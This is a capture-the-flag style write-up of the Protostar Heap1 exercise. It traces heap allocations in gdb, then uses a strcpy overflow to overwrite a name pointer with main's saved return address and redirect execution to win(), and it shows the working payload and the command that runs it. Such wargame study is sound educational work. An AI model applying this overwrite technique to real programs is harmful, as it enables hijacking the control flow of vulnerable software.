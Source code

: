 # For Heap1 in Protostar

The source code given by [Heap1](https://exploit-exercises.com/protostar/heap1/) is a big clue. It tells us that there are 2 arguments needed to run the program.
### First test
I ran the program in gdb to see how the heap changes as the program runs.
argv[1]: `aaabbb`
argv[2]: `cccddd`
```
(gdb) start
The program being debugged has been started already.
Start it from the beginning? (y or n) n
Program not restarted.
(gdb) set args "aaabbb" "cccddd"
(gdb) r
```

After `i1 = malloc(sizeof(struct internet));`, `i1` is allocated space from `0x804a008` to `0x804a010`. 
```
(gdb) x/32x 0x8049ff8
0x8049ff8:  0x00000000  0x00000000  0x00000000  0x00000011
0x804a008:	0x00000000	0x00000000	0x00000000	0x00020ff1
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
```

After `i1->priority = 1;`
```
(gdb) x/32x 0x804a008
0x804a008:	0x00000001	0x00000000	0x00000000	0x00020ff1
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
```

After `i1->name = malloc(8);`, `i1->name` is allocaed space from `0x804a018` to `0x804a020`
```
(gdb) x/32x 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00020fe1
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
```
After `i2 = malloc(sizeof(struct internet));` & `i2->priority = 2;`. `i2` is allocated space from `0x804a028` to `0x804a030`.
```
(gdb) x/32x 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x00000000	0x00000000	0x00020fd1
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
```

After `i2->name = malloc(8);`, `i2->name` is allocated space from `0x804a038` to `0x804a040`
```
(gdb) x/32x 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
```

After `strcpy(i1->name, argv[1]);`. `strcpy` copies `argv[1]` to the address stored in memory address `0x804a00c`.
```
(gdb) x/32x 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x62616161	0x00006262	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
```

After `strcpy(i2->name, argv[2]);`. `strcpy` copies `argv[2]` to the address stored in memory address `0x804a02c`.
```
(gdb) x/32x 0x804a008
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x62616161	0x00006262	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x64636363	0x00006464	0x00000000	0x00020fc1
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a078:	0x00000000	0x00000000	0x00000000	0x00000000
```


### Vulnerability and exploit
The moment I saw `strcpy` copying user input to a part of memory, I knew buffer overflow was involved. So how exactly are we going to use it to our benefit? After a moment of thinking, I decided to try out this tactic:
1. Using `argv[1]`, I shall override the value of `i2->name` to `0xbffff69c`, where the return address from `<main>` is stored.
2. Then I shall use `argv[2]` to input the address of `<win`>, `0x08048494`.

Fortunately, no `free` is involved, so I need not care about corrupting the heap metadata.
##### Checking ret value from <main>
Before `ret` from `<main>`
```
(gdb) p/x $ebp
$5 = 0xbffff698
(gdb) p/x $esp
$6 = 0xbffff670
(gdb) x/4x 0xbffff698
0xbffff698:	0xbffff718	0xb7eadc76	0x00000003	0xbffff744
```
After `ret` from the `<main>` 
```
(gdb) p/x $eip
$7 = 0xb7eadc76
```
The outut above confirms that our return address is ineed stored in address `0xbffff69c`.

##### My input
argv[1]: `\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x9c\xf6\xff\xbf`
argv[2]: `\x94\x84\x04\x08`

##### And we have a winner!
```
user@protostar:/opt/protostar/bin$ echo -e "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x9c\xf6\xff\xbf" "\x94\x84\x04\x08" | xargs -n 2 ./heap1
and we have a winner @ 1522381306
xargs: ./heap1: terminated by signal 4
user@protostar:/opt/protostar/bin$ 
```

END